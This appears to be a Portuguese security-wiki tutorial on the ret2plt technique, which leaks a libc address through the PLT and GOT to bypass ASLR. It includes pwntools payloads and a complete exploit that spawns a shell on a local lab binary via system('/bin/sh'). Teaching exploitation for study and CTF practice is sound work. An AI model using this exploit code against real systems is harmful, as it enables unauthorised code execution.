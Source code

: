 # Ret2plt

## Informações Básicas

O objetivo desta técnica seria **vazar um endereço de uma função do PLT** para poder contornar o ASLR. Isso ocorre porque, por exemplo, se você vazar o endereço da função `puts` da libc, você pode então **calcular onde está a base da `libc`** e calcular offsets para acessar outras funções como **`system`**.

Isso pode ser feito com um payload `pwntools` como ([**aqui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
Observe como o **`puts`** (usando o endereço do PLT) é chamado com o endereço do `puts` localizado na GOT (Tabela de Deslocamento Global). Isso ocorre porque, no momento em que o `puts` imprime a entrada da GOT do `puts`, esta **entrada conterá o endereço exato do `puts` na memória**.

Também observe como o endereço do `main` é usado no exploit, para que quando o `puts` encerre sua execução, o **binário chame `main` novamente em vez de sair** (para que o endereço vazado continue válido).

{% hint style="danger" %}
Observe que, para que isso funcione, o **binário não pode ser compilado com PIE** ou você deve ter **encontrado um vazamento para contornar o PIE** a fim de saber o endereço do PLT, GOT e main. Caso contrário, você precisará contornar o PIE primeiro.
{% endhint %}

Você pode encontrar um [**exemplo completo desse contorno aqui**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). Este foi o exploit final desse **exemplo**:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## Outros exemplos e Referências

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bits, ASLR ativado mas sem PIE, o primeiro passo é preencher um estouro de buffer até o byte 0x00 do canário e então chamar puts para vazá-lo. Com o canário, um ROP gadget é criado para chamar puts e vazar o endereço de puts da GOT e um ROP gadget para chamar `system('/bin/sh')`.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ASLR ativado, sem canário, estouro de pilha em main a partir de uma função filha. ROP gadget para chamar puts e vazar o endereço de puts da GOT e então chamar um one gadget.

